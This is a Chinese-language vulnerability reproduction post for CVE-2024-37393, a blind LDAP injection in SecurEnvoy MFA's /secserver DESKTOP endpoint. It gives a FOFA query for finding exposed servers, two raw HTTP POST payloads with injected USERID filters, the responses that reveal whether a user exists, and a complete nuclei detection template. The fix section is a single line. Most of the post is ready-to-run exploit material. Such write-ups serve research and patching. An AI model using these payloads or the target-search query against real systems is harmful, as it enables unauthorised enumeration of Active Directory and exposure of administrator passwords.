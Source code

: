 #  CVE-2024-37393 漏洞复现   
原创 fgz  AI与网安   2024-06-14 10:22  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
SecurEnvoy身份验证-LDAP注入漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
multi-factor_authentication_solutions   
9.4.514之前版本  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
SecurEnvoy MFA是一种广泛使用的软件解决方案，为第三方服务或设备(例如，思杰、FortiGate.)提供双因素身份验证(2 FA)支持。  
  
SecurEnvoy充当RADIUS服务器，并依赖LDAP服务(例如微软Active Directory，OpenLDAP)来验证其用户。它使用目录的内部密码处理来检查第一因素(依赖于LDAP绑定方法)，并扩展目录使用以允许在授予用户访问权限之前检查第二因素("PIN代码")。  
  
  
  
由于对用户提供的输入的验证不当，在9.4.514之前 SecurEnvoyMFA中存在多个LDAP注入漏洞。未经身份验证的远程攻击者可以通过对/secserver HTTP端点上暴露的 DESKTOP 服务进行盲目的LDAP注入攻击，从Active Directory中泄漏数据。包括ms-Mcs-AdmPwd，它为本地管理员密码解决方案(LAPS)功能提供了明文密码。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
title="SecurEnvoy"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNWry8a4KSZe6ZcnBNAsAwD8viayj36bH7j8W79A1pr4vopEtCnkkJX5EUuNYdUly296GzCASuSuyA/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
当将第一行为FLAG=DESKTOP的POST数据发送到/secserverHTTP端点时，会触发实现“DESKTOP”协议的特定代码。  
  
  
在这些参数中，USERID用于在发送特殊STATUS变量时执行用户身份验证。我们能够使用下面的协议消息来枚举绑定到SecurEnvoy(例如Active Directory)的目录中的现有用户。  
  
  
此请求允许未经身份验证的用户检查SecurEnvoy目录中是否存在SomeUser。  
之所以能够做到这一点，是因为服务器响应会根据用户是否存在而有所不同，用户不存在时响应内容为  
  
```
VERSION:9.3.502 
RETURN:Error checking Group, ERR, DN is not set 
AUTH:DENIED
```  
  
   
  
用户存在时响应内容为  
```
VERSION:9.3.502
RETURN:OK
GETPASSCODE:False
```  
  
  
  
POC数据包如下:  
  
第一步：  
```
POST /secserver/ HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36 Edg/94.0.992.47
Connection: close
Content-Length: 98
Accept-Encoding: gzip

FLAG=DESKTOP
1
STATUS:INIT
USERID:bvsakzz7oistfjkq8drw)(sAMAccountName=*
MEMBEROF:Domain Users
```  
  
响应内容如下  
```
HTTP/1.1 200 OK
Connection: close
Content-Length: 79
Content-Type: text/plain
Date: Fri, 14 Jun 2024 01:39:34 GMT
Strict-Transport-Security: max-age=16070400; includeSubDomains
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block

VERSION:9.3.502
RETURN:Error checking Group, ERR, DN is not set
AUTH:DENIED
```  
  
  
  
第二步：  
```
POST /secserver/ HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36
Connection: close
Content-Length: 79
Accept-Encoding: gzip

FLAG=DESKTOP
1
STATUS:INIT
USERID:*)(sAMAccountName=*
MEMBEROF:Domain Users
```  
  
响应内容：  
```
HTTP/1.1 200 OK
Connection: close
Content-Length: 49
Content-Type: text/plain
Date: Fri, 14 Jun 2024 01:39:35 GMT
Strict-Transport-Security: max-age=16070400; includeSubDomains
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block

VERSION:9.3.502
RETURN:OK
GETPASSCODE:False
```  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
官方已发布POC，亲测有效，poc文件内容如下  
```
id: CVE-2024-37393
info:
  name: SecurEnvoy Two Factor Authentication - LDAP Injection
  author: securityforeveryone
  severity: critical
  description: |
    Multiple LDAP injections vulnerabilities exist in SecurEnvoy MFA before 9.4.514 due to improper validation of user-supplied input. An unauthenticated remote attacker could exfiltrate data from Active Directory through blind LDAP injection attacks against the DESKTOP service exposed on the /secserver HTTP endpoint. This may include ms-Mcs-AdmPwd, which has a cleartext password for the Local Administrator Password Solution (LAPS) feature.
  reference:
    - https://www.tenable.com/cve/CVE-2024-37393
    - https://www.optistream.io/blogs/tech/securenvoy-cve-2024-37393
    - https://securenvoy.com
  metadata:
    verified: true
    shodan-query: title:"SecurEnvoy"
    fofa-query: title="SecurEnvoy"
  tags: cve,cve2024,securenvoy,ldap

variables:
  userid: "{{to_lower(rand_base(20))}}"

http:
  - raw:
      - |
        POST /secserver/? HTTP/2
        Host: {{Hostname}}

        FLAG=DESKTOP
        1
        STATUS:INIT
        USERID:{{userid}})(sAMAccountName=*
        MEMBEROF:Domain Users

      - |
        POST /secserver/? HTTP/2
        Host: {{Hostname}}

        FLAG=DESKTOP
        1
        STATUS:INIT
        USERID:*)(sAMAccountName=*
        MEMBEROF:Domain Users

    matchers:
      - type: dsl
        dsl:
          - "contains(body_1, 'Error checking Group')"
          - "status_code_1 == 200"
          - "contains(body_2, 'GETPASSCODE')"
          - "status_code_2 == 200"
        condition: and
# digest: 490a0046304402207956ded5a27d1c12f6487316e5b14bb02bb6977fa43bc048e1a21ac9010125480220063cb9fbb223d773537cc685ba85640b97d10412c97695ac541f5ecbac760bbd:922c64590222798bb761d5b6d8e72950
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNWry8a4KSZe6ZcnBNAsAwD8XEJFhgGBibbj0l2CSicOzWmvo54Evzv4Hw1nh3gTOFSaYEalDcZ3q3w/640?wx_fmt=png&from=appmsg "")  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
  
